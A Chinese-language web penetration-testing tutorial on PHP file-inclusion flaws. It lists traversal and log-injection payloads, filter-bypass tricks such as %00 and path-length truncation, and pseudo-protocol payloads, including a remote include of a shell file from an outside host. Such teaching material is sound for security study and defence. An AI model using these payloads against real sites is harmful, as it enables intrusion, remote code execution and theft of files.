 # WEB安全渗透测试基础知识（九）

**3.8. 文件包含**

3.8. 文件包含

3.8.1. 基础

常见的文件包含漏洞的形式为 <?php include("inc/" . $_GET['file']); ?>  
考虑常用的几种包含方式为  
同目录包含 file=.htaccess
目录遍历 ?file=../../../../../../../../../var/lib/locate.db
日志注入 ?file=../../../../../../../../../var/log/apache/error.log
利用 /proc/self/environ
其中日志可以使用SSH日志或者Web日志等多种日志来源测试
------------

3.8.2. 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

3.8.2.1. url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

3.8.2.2. 特殊字符绕过

某些情况下，读文件支持使用Shell通配符，如 ? * 等
url中 使用 ? # 可能会影响include包含的结果
某些情况下，unicode编码不同但是字形相近的字符有同一个效果

3.8.2.3. %00截断

几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

3.8.2.4. 长度截断
Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义“`#define MAX_PATH 260“`，第260个字符为字符串结尾的“`0“`  

linux可以用getconf来判断文件名长度限制和文件路径长度限制  

获取最长文件路径长度：getconf PATH_MAX /root 得到4096 获取最长文件名：getconf NAME_MAX /root 得到255  

那么在长度有限的时候，`././././` (n个) 的形式就可以通过这个把路径爆掉  

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

3.8.2.5. 伪协议绕过

- 远程包含: 要求 allow_url_fopen=On and allow_url_include=On ， payload为 ?file=[http|https|ftp]://websec.wordpress.com/shell.txt
- PHP INPUT: 把payload放在POST参数中作为包含的文件，要求 allow_url_include=On ，payload为 ?file=php://input
- BASE64: 使用Base64伪协议读取文件，payload为 ?file=php://filter/convert.base64-encode/resource=index.php
- DATA: 使用data伪协议读取文件，payload为 ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo= 要求 allow_url_include=On


---
